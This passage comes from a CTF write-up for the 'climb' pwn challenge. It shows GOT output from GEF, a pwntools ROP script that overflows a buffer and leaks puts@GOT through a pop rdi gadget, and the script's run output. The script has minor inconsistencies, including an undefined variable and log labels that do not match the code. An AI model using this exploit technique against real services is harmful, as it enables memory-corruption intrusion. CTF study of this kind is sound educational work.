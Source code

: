 ```bash
gef➤  got

GOT protection: Partial RelRO | GOT functions: 5
 
[0x601018] puts@GLIBC_2.2.5  →  0x7ffff7e54030  #this one
[0x601020] setbuf@GLIBC_2.2.5  →  0x7ffff7e5adb0
[0x601028] system@GLIBC_2.2.5  →  0x400536
[0x601030] printf@GLIBC_2.2.5  →  0x7ffff7e34470
[0x601038] read@GLIBC_2.2.5  →  0x7ffff7ecc5c0
```
Up to this, my payload to leak the address was 

### Leaking the address
```bash
payload = offset + pop_rdi + puts@got + puts@plt
```

**Part1_exploit: -**

```python
#!/bin/python3
# part1exploit.py
from pwn import * # Import pwntools

p= remote('cha.hackpack.club',41702)
#p = process("./climb") # start the vuln binary
elf = ELF("./climb")# Extract data from binary
rop = ROP(elf)# Find ROP gadgets

PUTS_PLT = elf.plt['puts']
PUTS_GOT = elf.got['puts']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]# Same as ROPgadget --binary vuln | grep "pop rdi"

log.info("Puts@plt: " + hex(PUTS))
log.info("Pop rdi gadget: " + hex(POP_RDI))
#Overflow buffer until return address
OFFSET = ("A"*40).encode() #+ "B"*8
# Create rop chain
payload1 = OFFSET
payload1 += p64(POP_RDI) 
payload1 += p64(PUTS_GOT) 
payload1 += p64(PUTS_PLT)

p.sendline(payload1)
p.interactive()

```

**Output** :- 

```python
❯ python3 part1_exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 16 cached gadgets for './climb'
[*] puts@plt: 0x40050c
[*] __libc_start_main: 0x601018
[*] pop rdi gadget: 0x400743
[*] Switching to interactive mode
```